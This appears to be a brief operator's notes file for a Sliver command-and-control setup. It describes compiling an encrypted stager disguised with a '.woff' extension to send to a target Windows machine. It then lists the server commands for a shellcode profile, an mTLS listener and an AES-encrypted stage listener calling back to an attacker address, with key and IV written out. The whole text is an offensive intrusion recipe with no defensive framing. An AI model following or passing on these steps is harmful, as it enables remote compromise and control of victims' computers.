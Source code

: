 compile this stager with attacker ip and AES key and iv with extension whatever.woff

the exe generated from this will be send to the target windows machine



----

sliver server steps



start sliver server

sudo systemctl start sliver

create profile => profiles new --mtls 192.168.122.1 --format shellcode <profile name>

create mtls listener  =>  mtls

create stage listener => stage-listener --url http://<attacker ip>:<listener port> --profile win-shellcode --aes-encrypt-key D(G+KbPeShVmYq3t --aes-encrypt-iv 8y/B?E(G+KbPeShV

use a different port from the other listener. mtls defaults to port 8888

